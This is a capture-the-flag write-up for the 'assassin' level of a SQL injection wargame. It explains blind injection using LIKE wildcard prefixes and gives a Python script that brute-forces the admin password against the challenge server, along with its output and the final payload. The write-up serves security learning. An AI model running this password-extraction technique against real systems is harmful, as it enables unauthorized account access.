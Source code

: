 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 15
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a4d30de7-86ed-4978-8c4c-38f8827700a5)

SQL query:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '{$_GET[pw]}'
```

### Filter

The code filters out the following characters:

- Single quotes

### Blind SQL Injection

We have to use wildcards to leak out the password.

#### Wildcard

![Pasted image 20240621082037](https://github.com/Kunull/Write-ups/assets/110326359/7c57a891-1577-4c2d-940d-556cac31d631)

More specifically, we have to use the (`%`) wildcard.

If we provide the following URI:

```
?pw=%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '%'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/4f441821-33d7-40d8-ac70-76dea5327282)

Since the `Hello guest` message is printed, we know that the `guest` user has a lower index than the `admin` user.

Let's provide the following URI:

```
?pw=0%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '0%'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/111c6b2d-5420-4ed9-adbd-2fd4e989cc44)

The first character of none of the passwords is `0`.

We can try other characters moving up to the following:

```
?pw=9%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '9%'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/949f9c1a-f635-4af9-a930-8a212bf4ce66)

So the first character of both the `admin` and `guest` password is common, being `9`.

We can keep on following this method until the `Hello admin` message is included in the response. That tells us that the password is exclusive to the `admin` only.

```
902%
```

### Script

We can automate the entire process using a script.

```python title="assassin_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'cih6lj5v0dkr263t42fnn0d7br'}
url = 'https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php'

guest_password = ''
admin_password = ''
searchspace = string.digits + string.ascii_letters
print()

for index in range(1, 9):
  for char in searchspace:
    payload = f"{guest_password}{char}"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?pw={encoded_payload}%'

    response = requests.get(full_url, cookies=cookies)

    if ("Hello admin" in response.text):
      admin_password = guest_password + char 
      break
    elif ("Hello guest" in response.text):
      guest_password += char
      print(f'[x] Common character: {char}')
      break

print()
print(f'[x] Distinct character: {char}')
print(f'[!] Extracted password: {admin_password}%')
print(f'[!] Final payload: ?pw={admin_password}%')
```

```
$ python .\assassin_script.py

[x] Common character: 9
[x] Common character: 0

[x] Distinct character: 2  
[!] Extracted password: 902%
[!] Final payload: ?pw=902% 
```

If we provide the following URI:

```
?pw=902%
```

The resultant query becomes:

```sql
SELECT id FROM prob_assassin WHERE pw LIKE '902%'
```

![0](https://github.com/Kunull/Write-ups/assets/110326359/72b89d8f-5346-492b-a89d-52247da864c1)
